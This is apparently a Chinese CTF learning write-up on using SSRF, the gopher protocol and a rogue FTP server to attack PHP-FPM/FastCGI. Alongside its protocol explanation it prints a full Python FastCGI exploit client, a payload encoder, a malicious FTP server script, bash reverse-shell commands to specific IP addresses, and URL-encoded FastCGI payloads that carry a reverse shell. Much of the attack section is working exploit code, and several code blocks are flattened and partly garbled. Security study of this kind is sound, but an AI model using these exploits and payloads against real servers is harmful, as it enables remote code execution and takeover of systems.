0x01 前言
本文的产生是由于之前刷CTFHub靶场遇到的，看到自己对SSRF方面还是有所欠缺的，这里又遇到了新知识点，故此记录一下。
这里主要是利用gopher协议：
这个协议作为SSRF漏洞利用中的万金油，可以用它来攻击内网的FTP、Telnet、Redis、Memcache、FastCGI等应用，那么这篇文章就来介绍一下FastCGI以及利用SSRF结合Gopher协议攻击FastCGI
0x02 FastCGI
这里多为其他大师傅的知识总结，还请见谅~~
这里先给出维基百科对其的解释：
快速通用网关接口 （Fast C ommon G ateway I nterface／FastCGI ）是一种让交互程序与Web服务器通信的协议。FastCGI是早期通用网关接口（CGI）的增强版本。FastCGI致力于减少网页服务器与CGI程序之间交互的开销，从而使服务器可以同时处理更多的网页请求。
只通过这样简单两句话确实难以理解这是一个什么协议，下面是我通过阅读各种资料后对这个协议的理解
众所周知，在网站分类中存在一种分类就是静态网站和动态网站，两者的区别就是静态网站只需要通过浏览器进行解析，其中的页面是一对一的(一个内容对应一个页面)，而动态网站需要一个额外的编译解析的过程，网页上的数据是从数据库中或者其他地方调用，页面会随着数据的变化而改变，就产生了一定的交互性。
浏览器访问静态网页过程
在整个网页的访问过程中，Web容器(例如Apache、Nginx)只担任着内容分发者的身份，当访问静态网站的主页时，Web容器会到网站的相应目录中查找主页文件，然后发送给用户的浏览器。
浏览器访问动态网页过程
当访问动态网站的主页时，根据容器的配置文件，它知道这个页面不是静态页面，web容器就会去找PHP解析器来进行处理(这里以Apache为例)，它会把这个请求进行简单的处理，然后交给PHP解释器。
当Apache收到用户对 index.php 的请求后，如果使用的是CGI，会启动对应的 CGI 程序，对应在这里就是PHP的解析器。接下来PHP解析器会解析php.ini文件，初始化执行环境，然后处理请求，再以规定CGI规定的格式返回处理后的结果，退出进程，Web server再把结果返回给浏览器。这就是一个完整的动态PHP Web访问流程。
这里说的是使用CGI，而FastCGI就相当于高性能的CGI，与CGI不同的是它像一个常驻的CGI，在启动后会一直运行着，不需要每次处理数据时都启动一次， 所以这里引出下面这句概念，FastCGI是语言无关的、可伸缩架构的CGI开放扩展，其主要行为是将CGI解释器进程保持在内存中，并因此获得较高的性能 。
FastCGI Record
HTTP协议是浏览器和服务器中间件进行数据交换的协议，浏览器将HTTP头和HTTP体用某个规则组装成数据包，以TCP的方式发送到服务器中间件，服务器中间件按照规则将数据包解码，并按要求拿到用户需要的数据，再以HTTP协议的规则打包返回给服务器。
类比HTTP协议来说，fastcgi协议则是服务器中间件和某个语言后端进行数据交换的协议。Fastcgi协议由多个record组成，record也有header和body一说，服务器中间件将这二者按照fastcgi的规则封装好发送给语言后端，语言后端解码以后拿到具体数据，进行指定操作，并将结果再按照该协议封装好后返回给服务器中间件。
和HTTP头不同，record的头固定8个字节，body是由头中的contentLength指定，其结构如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 typedef struct {unsigned char version; unsigned char type; unsigned char requestIdB1; unsigned char requestIdB0;unsigned char contentLengthB1; unsigned char contentLengthB0;unsigned char paddingLength; unsigned char reserved; unsigned char contentData[contentLength];unsigned char paddingData[paddingLength];
头由8个uchar类型的变量组成，每个变量1字节。其中，requestId占两个字节，一个唯一的标志id，以避免多个请求之间的影响；contentLength占两个字节，表示body的大小。
语言端解析了fastcgi头以后，拿到contentLength，然后再在TCP流里读取大小等于contentLength的数据，这就是body体。
Body后面还有一段额外的数据（Padding），其长度由头中的paddingLength指定，起保留作用。不需要该Padding的时候，将其长度设置为0即可。
可见，一个fastcgi record结构最大支持的body大小是2^16，也就是65536字节。
FastCGI Type
type就是指定该record的作用。因为fastcgi一个record的大小是有限的，作用也是单一的，所以我们需要在一个TCP流里传输多个record。通过type来标志每个record的作用，用requestId作为同一次请求的id。
也就是说，每次请求，会有多个record，他们的requestId是相同的。
借用该文章 中的一个表格，列出最主要的几种type：
看了这个表格就很清楚了，服务器中间件和后端语言通信，第一个数据包就是type为1的record，后续互相交流，发送type为4、5、6、7的record，结束时发送type为2、3的record。
当后端语言接收到一个type为4的record后，就会把这个record的body按照对应的结构解析成key-value对，这就是环境变量。
0x03 PHP-FPM
官方对它的解释是FPM（FastCGI 进程管理器）用于替换 PHP FastCGI 的大部分附加功能，对于高负载网站是非常有用的。
也就是说php-fpm是FastCGI的一个具体实现，并且提供了进程管理的功能，在其中的进程中，包含了master和worker进程，这个在后面我们进行环境搭建的时候可以通过命令查看。其中master 进程负责与 Web 服务器进行通信，接收 HTTP 请求，再将请求转发给 worker 进程进行处理，**worker 进程主要负责动态执行 PHP 代码，**处理完成后，将处理结果返回给 Web 服务器，再由 Web 服务器将结果发送给客户端。
那实际上呢FPM其实是一个fastcgi协议解析器，Nginx等服务器中间件将用户请求按照fastcgi的规则打包好通过TCP传给谁？其实就是传给FPM。
FPM按照fastcgi的协议将TCP流解析成真正的数据。
举个例子，用户访问http://127.0.0.1/index.php?a=1&b=2，如果web目录是/var/www/html，那么Nginx会将这个请求变成如下key-value对：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 {'GATEWAY_INTERFACE' : 'FastCGI/1.0' ,'REQUEST_METHOD' : 'GET' ,'SCRIPT_FILENAME' : '/var/www/html/index.php' ,'SCRIPT_NAME' : '/index.php' ,'QUERY_STRING' : '?a=1&b=2' ,'REQUEST_URI' : '/index.php?a=1&b=2' ,'DOCUMENT_ROOT' : '/var/www/html' ,'SERVER_SOFTWARE' : 'php/fcgiclient' ,'REMOTE_ADDR' : '127.0.0.1' ,'REMOTE_PORT' : '12345' ,'SERVER_ADDR' : '127.0.0.1' ,'SERVER_PORT' : '80' ,'SERVER_NAME' : "localhost" ,'SERVER_PROTOCOL' : 'HTTP/1.1'
这个数组其实就是PHP中$_SERVER数组的一部分，也就是PHP里的环境变量。但环境变量的作用不仅是填充$_SERVER数组，也是告诉fpm：“我要执行哪个PHP文件”。
PHP-FPM拿到fastcgi的数据包后，进行解析，得到上述这些环境变量。然后，执行SCRIPT_FILENAME的值指向的PHP文件，也就是/var/www/html/index.php。
Nginx（IIS7）解析漏洞
Nginx和IIS7曾经出现过一个PHP相关的解析漏洞（测试环境https://github.com/phith0n/vulhub/tree/master/nginx_parsing_vulnerability），该漏洞现象是，在用户访问http://127.0.0.1/favicon.ico/.php时，访问到的文件是favicon.ico，但却按照.php后缀解析了。
用户请求http://127.0.0.1/favicon.ico/.php，nginx将会发送如下环境变量到fpm里：
1 2 3 4 5 6 7 8 {'SCRIPT_FILENAME' : '/var/www/html/favicon.ico/.php' ,'SCRIPT_NAME' : '/favicon.ico/.php' ,'REQUEST_URI' : '/favicon.ico/.php' ,'DOCUMENT_ROOT' : '/var/www/html' ,
正常来说，SCRIPT_FILENAME的值是一个不存在的文件/var/www/html/favicon.ico/.php，是PHP设置中的一个选项fix_pathinfo导致了这个漏洞。PHP为了支持Path Info模式而创造了fix_pathinfo，在这个选项被打开的情况下，fpm会判断SCRIPT_FILENAME是否存在，如果不存在则去掉最后一个/及以后的所有内容，再次判断文件是否存在，往次循环，直到文件存在。
所以，第一次fpm发现/var/www/html/favicon.ico/.php不存在，则去掉/.php，再判断/var/www/html/favicon.ico是否存在。显然这个文件是存在的，于是被作为PHP文件执行，导致解析漏洞。
正确的解决方法有两种，一是在Nginx端使用fastcgi_split_path_info将path info信息去除后，用tryfiles判断文件是否存在；二是借助PHP-FPM的security.limit_extensions配置项，避免其他后缀文件被解析。
写到这里，PHP-FPM未授权访问漏洞也就呼之欲出了。PHP-FPM默认监听9000端口，如果这个端口暴露在公网，则我们可以自己构造fastcgi协议，和fpm进行通信。
此时，SCRIPT_FILENAME的值就格外重要了。因为fpm是根据这个值来执行php文件的，如果这个文件不存在，fpm会直接返回404：
在fpm某个版本之前，我们可以将SCRIPT_FILENAME的值指定为任意后缀文件，比如/etc/passwd；但后来，fpm的默认配置中增加了一个选项security.limit_extensions：
1 2 3 4 5 6 7 ; Limits the extensions of the main script FPM will allow to parse. This canuse other extensions to empty value to allow all extensions.
其限定了只有某些后缀的文件允许被fpm执行，默认是.php。所以，当我们再传入/etc/passwd的时候，将会返回Access denied.：

由于这个配置项的限制，如果想利用PHP-FPM的未授权访问漏洞，首先就得找到一个已存在的PHP文件。
万幸的是，通常使用源安装php的时候，服务器上都会附带一些php后缀的文件，我们使用find / -name "*.php"来全局搜索一下默认环境：
找到了不少。这就给我们提供了一条思路，假设我们爆破不出来目标环境的web目录，我们可以找找默认源安装后可能存在的php文件，比如/usr/local/lib/php/PEAR.php。
任意代码执行
那在上述条件下我们即使SCRIPT_FILENAME可控，但由于其对于文件后缀的限制以及如果起服务器上没有相应的文件，则其会无法执行文件而返回404的特性，就不能执行我们想要其执行的恶意文件了，只能执行其服务器上存在的文件。
那我们如何才能让其执行恶意文件呢，这就需要以下两个配置项：auto_prepend_file和auto_append_file。
1 2 auto_append_file #在执行php文件后自动包含一个指定文件
我们锁定第二个参数，如果我们将其设置为php://input，那就等于在执行指定php文件之前先执行一次input指定的post的内容，因此我们将恶意代码放入body中即可让其执行我们的恶意代码（当然，还需要开启远程文件包含选项allow_url_include）
那么，我们怎么设置auto_prepend_file的值？
这又涉及到PHP-FPM的两个环境变量，PHP_VALUE和PHP_ADMIN_VALUE。这两个环境变量就是用来设置PHP配置项的，PHP_VALUE可以设置模式为PHP_INI_USER和PHP_INI_ALL的选项，PHP_ADMIN_VALUE可以设置所有选项。（disable_functions除外，这个选项是PHP加载的时候就确定了，在范围内的函数不会直接被加载到PHP上下文中）
所以，我们最后传入如下环境变量：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 {'GATEWAY_INTERFACE' : 'FastCGI/1.0' ,'REQUEST_METHOD' : 'GET' ,'SCRIPT_FILENAME' : '/var/www/html/index.php' ,'SCRIPT_NAME' : '/index.php' ,'QUERY_STRING' : '?a=1&b=2' ,'REQUEST_URI' : '/index.php?a=1&b=2' ,'DOCUMENT_ROOT' : '/var/www/html' ,'SERVER_SOFTWARE' : 'php/fcgiclient' ,'REMOTE_ADDR' : '127.0.0.1' ,'REMOTE_PORT' : '12345' ,'SERVER_ADDR' : '127.0.0.1' ,'SERVER_PORT' : '80' ,'SERVER_NAME' : "localhost" ,'SERVER_PROTOCOL' : 'HTTP/1.1' 'PHP_VALUE' : 'auto_prepend_file = php://input' ,'PHP_ADMIN_VALUE' : 'allow_url_include = On'
设置auto_prepend_file = php://input且allow_url_include = On，然后将我们需要执行的代码放在Body中，即可执行任意代码。
0x03 环境搭建
有了上面对于这个漏洞的理解，我们接下来搭建一下环境来复现一波，文章参考：SSRF系列之攻击FastCGI
这里直接在Ubuntu上安装Nginx和php-fpm，首先安装Nginx
1 sudo apt-get install nginx
安装php、php-fpm以及一些插件
1 2 3 4 5 sudo apt-get install software-properties-common python-software-properties
上面这五条命令，如果前面两个出错，应该是不用在乎的（亲身经历）
配置php-fpm
这里花了一天的时间才成功配置好。。。。
修改配置监听9000端口来处理nginx的请求
打开/etc/php/7.2/fpm/pool.d/www.conf文件找到如下位置注释第一行添加第二行
1 2 ;listen = /run/php/php7.2-fpm.sock
注意这里如果设置监听为0.0.0.0:9000就在产生php-fpm未授权访问漏洞，此时攻击者可以直接与9000端口上的php-fpm进行通信，进而可以实现任意代码执行。
下面修改权限
1 chmod 777 /run/php/php7.2-fpm.sock
打开nginx的配置文件 /etc/nginx/sites-available/default 修改相应部分的配置

这里在位置1，修改一下nginx的根目录位置，最好别搞/var/www/html，这样似乎是与ubuntu自带的Apache2服务冲突（如果没有apache2当我没说），随后在位置2添加index.php，位置3中server_name 赋值为localhost。最后在其下面合适位置添加如下代码即可
1 2 3 4 5 6 location ~\.php$ {$uri = 404 ;127.0 .0.1 :9000 ;include fastcgi_params;
保存文件，使配置文件生效
启动环境
这里先启动nginx服务，完成后查看一下php-fpm的安装位置，然后启动：service php7.2-fpm start
1 2 whereis php-fpm
重新启动Nginx
1 sudo systemctl restart nginx
然后检查nginx是否正确启动 systemctl status nginx
检查php-fpm是否正确启动 ps -elf | grep php-fpm
这里就可以看出上面所说的存在一个master进程和多个worker进程
下面将/usr/share/nginx/html目录下的文件删除，新建一个index.php，内容可以写上<?php phpinfo();?> 用来检查各项是否正常运行，如果页面为空，查看这篇文章 解决

其中Sever API 处和上图一样说明运行正确，然后在目录下新建ssrf.php 内容为
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 <?php highlight_file (__FILE__ );$url = $_GET ['url' ];$curl = curl_init ($url ); curl_setopt ($curl , CURLOPT_HEADER, 0 ); $responseText = curl_exec ($curl );echo $responseText ;curl_close ($curl );?>
该代码为一个ssrf漏洞的示例代码，可以访问/ssrf.php?url=http://www.baidu.com进行测试，下图为正常的结果
ssrf攻击FastCGI演示
使用exp攻击
这里在已知其使用了php-fpm的情况下，我们可以先使用exp测试是否可以直接攻击9000端口，这个工具主要是用来攻击未授权访问php-fpm的，所以一些地方需要自己写脚本转换一下payload，下面是使用方法（网上有用go语言写的，这里我采用py的），这个代码似乎py2与py3均可执行，不过我这里直接用的py3，未测试py2
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 import socketimport randomimport argparseimport sysfrom io import BytesIOTrue if sys.version_info.major == 2 else False def bchr (i ):if PY2:return force_bytes(chr (i))else :return bytes ([i])def bord (c ):if isinstance (c, int ):return celse :return ord (c)def force_bytes (s ):if isinstance (s, bytes ):return selse :return s.encode('utf-8' , 'strict' )def force_text (s ):if issubclass (type (s), str ):return sif isinstance (s, bytes ):str (s, 'utf-8' , 'strict' )else :str (s)return sclass FastCGIClient :"""A Fast-CGI Client for Python""" 1 1 2 3 1 2 3 4 5 6 7 8 9 10 11 8 1 2 3 def __init__ (self, host, port, timeout, keepalive ):if keepalive:1 else :0 None dict ()def __connect (self ):1 )try :int (self.port)))except socket.error as msg:None print (repr (msg))return False return True def __encodeFastCGIRecord (self, fcgi_type, content, requestid ):len (content)8 ) & 0xFF ) \0xFF ) \8 ) & 0xFF ) \0xFF ) \0 ) \0 ) \return bufdef __encodeNameValueParams (self, name, value ):len (name)len (value)b'' if nLen < 128 :else :24 ) | 0x80 ) \16 ) & 0xFF ) \8 ) & 0xFF ) \0xFF )if vLen < 128 :else :24 ) | 0x80 ) \16 ) & 0xFF ) \8 ) & 0xFF ) \0xFF )return record + name + valuedef __decodeFastCGIHeader (self, stream ):dict ()'version' ] = bord(stream[0 ])'type' ] = bord(stream[1 ])'requestId' ] = (bord(stream[2 ]) << 8 ) + bord(stream[3 ])'contentLength' ] = (bord(stream[4 ]) << 8 ) + bord(stream[5 ])'paddingLength' ] = bord(stream[6 ])'reserved' ] = bord(stream[7 ])return headerdef __decodeFastCGIRecord (self, buffer ):int (self.__FCGI_HEADER_SIZE))if not header:return False else :'content' ] = b'' if 'contentLength' in record.keys():int (record['contentLength' ])'content' ] += buffer.read(contentLength)if 'paddingLength' in record.keys():int (record['paddingLength' ]))return recorddef request (self, nameValuePairs={}, post='' ):if not self.__connect():print ('connect failure! please check your fasctcgi-server !!' )return 1 , (1 << 16 ) - 1 )dict ()b"" 0 ) \0 ) * 5 b'' if nameValuePairs:for (name, value) in nameValuePairs.items():if paramsRecord:b'' , requestId)if post:b'' , requestId)'state' ] = FastCGIClient.FCGI_STATE_SEND'response' ] = b'' return self.__waitForResponse(requestId)def __waitForResponse (self, requestId ):b'' while True :512 )if not len (buf):break while True :if not response:break if response['type' ] == FastCGIClient.__FCGI_TYPE_STDOUT \or response['type' ] == FastCGIClient.__FCGI_TYPE_STDERR:if response['type' ] == FastCGIClient.__FCGI_TYPE_STDERR:'state' ] = FastCGIClient.FCGI_STATE_ERRORif requestId == int (response['requestId' ]):'response' ] += response['content' ]if response['type' ] == FastCGIClient.FCGI_STATE_SUCCESS:return self.requests[requestId]['response' ]def __repr__ (self ):return "fastcgi connect host:{} port:{}" .format (self.host, self.port)if __name__ == '__main__' :'Php-fpm code execution vulnerability client.' )'host' , help ='Target host, such as 127.0.0.1' )'file' , help ='A php file absolute path, such as /usr/local/lib/php/System.php' )'-c' , '--code' , help ='What php code your want to execute' , default='<?php phpinfo(); exit; ?>' )'-p' , '--port' , help ='FastCGI port' , default=9000 , type =int )3 , 0 )dict ()"/" 'GATEWAY_INTERFACE' : 'FastCGI/1.0' ,'REQUEST_METHOD' : 'POST' ,'SCRIPT_FILENAME' : documentRoot + uri.lstrip('/' ),'SCRIPT_NAME' : uri,'QUERY_STRING' : '' ,'REQUEST_URI' : uri,'DOCUMENT_ROOT' : documentRoot,'SERVER_SOFTWARE' : 'php/fcgiclient' ,'REMOTE_ADDR' : '127.0.0.1' ,'REMOTE_PORT' : '9985' ,'SERVER_ADDR' : '127.0.0.1' ,'SERVER_PORT' : '80' ,'SERVER_NAME' : "localhost" ,'SERVER_PROTOCOL' : 'HTTP/1.1' ,'CONTENT_TYPE' : 'application/text' ,'CONTENT_LENGTH' : "%d" % len (content),'PHP_VALUE' : 'auto_prepend_file = php://input' ,'PHP_ADMIN_VALUE' : 'allow_url_include = On'
命令格式：python [脚本名] -c [要执行的代码] -p [端口号] [ip] [要执行的php文件]
即：python3 ssrf+FastCGI.py -c "<?php system('ls');?>" -p 8888 192.168.246.130 /usr/share/nginx/html/index.php --这里实际是写web目录，但由于我配置的时候不是默认的/var/www/html，因此这里会不一样，当我们在实际遇到的话，一般都是后者。
这里的由于我是用kali监听的端口，故此写了kali的ip与监听端口

接下来我们先运行上述exp，同时在kali开启监听，记录我们的攻击流量

这里的报错不用理会，如下图，这里成功将流量传到了1.txt，接下来将1.txt文件中的内容进行url编码（2次）因为我们这里是利用的ssrf进行的攻击
1 2 3 4 5 6 import urllib.parseopen ('1.txt' ,'rb' )"%0A" ,"%0A%0D" )print ("gopher://127.0.0.1:9000/_" +urllib.parse.quote(payload))
将得到的结果传入到url参数中，如下图成功命令执行

这里看的文章也有一个值得注意的点，就是如果我们得知对方开启了php-fpm，我们可能会直接尝试exp去攻击，但往往会没有效果。这是因为就像我们刚刚的配置过程一般，我们设置的端口监听只允许127.0.0.1，因此如果我们直接进行攻击的话，我们的ip来源是公网的，因此不可能攻击成功。那如何才能可以攻击呢，有两种情况：
对方在进行服务器配置的时候将php-fpm服务的9000端口暴露在了公网，那我们直接就可以进行攻击了。
如果其仅仅监听127.0.0.1，那我们就只能祈福该网站存在ssrf可以让我们利用，这样也可以攻击9000端口
利用 Gopherus 攻击
Gopherus 这个工具相比上一个更加方便一下，该工具能生成Gopher有效负载，用来利用SSRF进行RCE：
我们浅浅看一下其exp，发现他最终对payload只进行了一次编码，因此我们如果在ssrf上进行攻击的时候，一般要进行2次编码。
下面我们就利用这个工具来执行命令：
1 2 3 python2 gopherus.py --exploit fastcgiid
我们将得到的结果在进行一次url编码，如下图成功执行
接下来还有很多攻击方法，我们继续学习！
FTP+SSRF 攻击 FPM/FastCGI
这是在之前Laravel Debug mode RCE（CVE-2021-3129）漏洞的一个思路。该漏洞的核心就是传入 file_get_contents() 和 file_put_contents() 这两个函数中的内容没有经过过滤，从而可以通过精巧的构造触发 phar 反序列化，达到RCE的效果。
漏洞代码大致可以简化为如下代码：
1 2 3 <?php $contents = file_get_contents ($_GET ['viewFile' ]);file_put_contents ($_GET ['viewFile' ], $contents );
这里是将读取传入的viewFile参数指定的文件路径所对应的文件的内容，之后又重新写会那个文件。。。。
由于我们可以运行 file_get_contents() 来查找任何东西，因此，可以运用 SSRF 常用的姿势，通过发送HTTP请求来扫描常用端口。假设此时我们发现目标正在监听 9000 端口，则很有可能目标主机上正在运行着 PHP-FPM，我们可以进一步利用该漏洞来攻击 PHP-FPM。
众所周知，如果我们能向 PHP-FPM 发送一个任意的二进制数据包，就可以在机器上执行代码。这种技术经常与gopher://协议结合使用，curl支持gopher://协议，但file_get_contents却不支持。
但其却支持允许通过TCP发送二进制数据包的FTP协议，更准确的说应该是FTP协议的被动模式：
如果一个客户端试图从FTP服务器上读取或写入一个文件，服务端会通知客户端将文件的内容写入或读取到一个由服务器指定的IP和端口上。而且这里对IP和端口没有进行必要的限制。例如，服务器可以告诉客户端连接到自己的某一个端口上，如果客户端愿意的话。
现在，如果我们尝试使用 viewFile=ftp://evil-server/file.txt 来利用这个漏洞，会发生以下情况：
首先通过 file_get_contents() 函数连接到我们的FTP服务器，并下载file.txt。
然后再通过 file_put_contents() 函数连接到我们的FTP服务器，并将其上传回file.txt。
现在，你可能已经知道这是怎么回事：我们将使用 FTP 协议的被动模式让 file_get_contents() 在我们的服务器上下载一个文件，当它试图使用 file_put_contents() 把它上传回去时，我们将告诉它把文件发送到 127.0.0.1:9000。这样，我们就可以向目标主机本地的 PHP-FPM 发送一个任意的数据包，从而执行代码，造成SSRF了。
这里我还是有点难以理解，接下来我们直接实战来感受一下
首先我们先来生成一下payload，这里采用的命令是bash来反弹shell
1 bash -c "bash -i >& /dev/tcp/124.220.233.26/9999 0>&1"
这里我们只需要截取_符号后面的内容
1 %01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%0D%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH107%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%1FSCRIPT_FILENAME/usr/share/nginx/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00k%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.246.130/8888%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
设置好监听，然后编写如下脚本（脚本是从网上找的），在攻击机上搭建一个恶意的ftp服务，并将上面的payload中的数据替换掉下面ftp脚本中的payload的内容：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 import socketfrom urllib.parse import unquote"%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%0D%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH107%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%1FSCRIPT_FILENAME/usr/share/nginx/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00k%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.246.130/8888%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00" )'utf-8' )'0.0.0.0' 23 5 )1234 ))1 while 1 :b"200 \n" )print (conn.recv(20 )) if count == 1 :b"220 ready\n" )else :b"200 ready\n" )print (conn.recv(20 )) if count == 1 :b"215 \n" )else :b"200 \n" )print (conn.recv(20 )) if count == 1 :b"213 3 \n" ) else :b"300 \n" )print (conn.recv(20 )) b"200 \n" )print (conn.recv(20 )) if count == 1 :b"227 192,168,246,130,4,210\n" ) else :b"227 127,0,0,1,0,9000\n" ) print (conn.recv(20 )) if count == 1 :b"125 \n" ) print ("建立连接!" )print ("断开连接!" )else :b"150 \n" )print (conn.recv(20 ))if count == 1 :b"226 \n" )1
运行上述脚本，一个恶意ftp服务就起来了：
这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的 payload；当客户端第二次连接的时候将客户端的连接重定向到 127.0.0.1:9000，也就是目标主机上 php-fpm 服务的端口，从而造成 SSRF，攻击其 php-fpm。
我认为上述多次连接的过程可以参考：FTP连接过程详解
最后，构造如下请求，触发攻击：
1 /ssrf.php?viewFile=ftp://aaa@192.168.246.130:23/123
这里也是踩了个巨坑，tm直接浪费了我两个小时，问题点在这
1 2 3 conn.send(b"227 192,168,246,130,4,210\n" ) else :b"227 127,0,0,1,0,9000\n" )
上面代码第一个send发送的ip应该为我们搭建恶意ftp服务器所在的ip，而我当时一直用的127.0.0.1，很显然这是向他自己内部访问1234端口。。。。原来那位师傅搭建的环境都是在自己本机上。。。。犯这种错误真实很滑稽。。。
最后也是成功反弹shell(呜呜~~~~)
假设有以下代码：
1 2 <?php file_put_contents ($_GET ['file' ], $_GET ['data' ]);
经测试目标主机的 9000 端口上存在 PHP-FPM ，那我们便可以利用与刚才相似的原理，通过搭建恶意的 ftp 服务器来攻击 PHP-FPM。
首先还是使用 gopherus 生成payload，这里就不再赘述了，得到的payload只截取 _ 后面的数据部分。
